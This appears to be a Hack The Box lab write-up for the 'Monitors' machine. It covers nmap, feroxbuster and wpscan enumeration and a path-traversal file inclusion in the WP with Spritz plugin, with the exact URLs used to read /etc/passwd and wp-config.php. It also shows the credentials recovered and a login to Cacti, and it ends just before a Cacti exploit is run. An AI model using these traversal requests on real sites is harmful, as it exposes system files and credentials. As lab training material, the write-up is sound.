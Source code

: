 ## ---------->> Monitors <<------------

// We start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.238 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 14:05 UTC
    Stats: 0:01:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 6.94% done; ETC: 14:33 (0:25:55 remaining)
    Nmap scan report for 10.10.10.238
    Host is up (0.33s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
    |   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
    |_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.238/ , we can see that the output tells us that we not permmited and contact the admin's mail 

// the mail have the domain after the '@' 

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/1.png)

// So lets had him to /etc/hosts

    $ cat /etc/hosts

    10.10.10.238	monitors.htb

// Navigate to http://monitors.htb present us with some monitor site

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/2.png)

// [Feroxbuster](https://github.com/epi052/feroxbuster)(By epi052) Tool will help us to search for directories in the webssite

    $ ./feroxbuster -u http://monitors.htb/ -t 100
-----
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://monitors.htb/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        9l       28w      317c http://monitors.htb/wp-content
    301        9l       28w      324c http://monitors.htb/wp-content/themes
    301        9l       28w      325c http://monitors.htb/wp-content/plugins
    301        9l       28w      327c http://monitors.htb/wp-content/languages
    301        9l       28w      335c http://monitors.htb/wp-content/languages/plugins
    301        9l       28w      334c http://monitors.htb/wp-content/languages/themes
    301        9l       28w      315c http://monitors.htb/wp-admin
    301        9l       28w      325c http://monitors.htb/wp-content/upgrade
    301        9l       28w      322c http://monitors.htb/wp-admin/images
    301        9l       28w      318c http://monitors.htb/wp-admin/js
    301        9l       28w      319c http://monitors.htb/wp-admin/css
    301        9l       28w      324c http://monitors.htb/wp-admin/includes
    301        9l       28w      320c http://monitors.htb/wp-admin/user


// The output tells us that the server CMS is WordPress

// We can check for vulnerabilities for Wordpress with [wpscan](https://wpscan.com/) tool

    $ wpscan --url http://monitors.htb/ --api-token YOUR_TOKEN --plugins-detection mixed -e
-------

        _______________________________________________________________
                 __          _______   _____
                 \ \        / /  __ \ / ____|
                  \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                   \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                    \  /\  /  | |     ____) | (__| (_| | | | |
                     \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                 WordPress Security Scanner by the WPScan Team
                                 Version 3.8.18
               Sponsored by Automattic - https://automattic.com/
               @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
        _______________________________________________________________

        ......

        [+] wp-with-spritz
         | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
         | Latest Version: 1.0 (up to date)
         | Last Updated: 2015-08-20T20:15:00.000Z
         | Readme: http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
         | [!] Directory listing is enabled
         |
         | Found By: Urls In Homepage (Passive Detection)
         | Confirmed By: Known Locations (Aggressive Detection)
         |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/, status: 200
         |
         | [!] 1 vulnerability identified:
         |
         | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
         |     References:
         |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
         |      - https://www.exploit-db.com/exploits/44544/
         |
         | Version: 4.2.4 (80% confidence)
         | Found By: Readme - Stable Tag (Aggressive Detection)
         |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

        ......

// The output of wpscan shows us there is vulnerability of wp-spritz plugin - Unauthenticated File Inclusion

// Navigating to https://www.exploit-db.com/exploits/44544/ will help us to understant 

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/3.png)

// Lets try that

    http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd
    
![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/4.png)

// It worked !

// We can check for WordPress configuration file calle 'wp-config.php'

    http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/5.png)

// We got Credentials !  wpadmin : BestAdministrator@2020!

// Trying to connect to Wordpress with those credentials didnt work

// So, Since we got successed with the LFI lets try to find some interesting files

// First we need linux directories list, found amazing [lfi-linux-list](https://github.com/carlospolop/hacktricks/blob/a140aa95ee5b53aa4c367cd6d8c5cb96d50dc381/pentesting-web/file-inclusion/lfi-linux-list.md
)(By carlospolop)

// Next we will proceed with the LFI and BurpSuite Intruder and Brute Force the directories to see the responses

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/6.png)

// We found interesting document in /etc/apache2/sites-enabled/000-default.conf

// Its the apache2 configuration file and he contains a sub domain we need to add to /etc/hosts

    $ cat /etc/hosts

    10.10.10.238	monitors.htb cacti-admin.monitors.htb
    
// Navigating to http://cacti-admin.monitors.htb we represented with login page 

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/7.png)

// success login with credentials:  admin : BestAdministrator@2020!

// on dashboard page we can see the version is 1.2.12

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/8.png)

// Lets search for vulnerabilities in [ExploiDB](https://www.exploit-db.com/)

![Image 9](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Monitors/9.png)

// Found a python script for Remote Code Execution(By Leonardo paiva)

// Lets download the Exploit and try him 

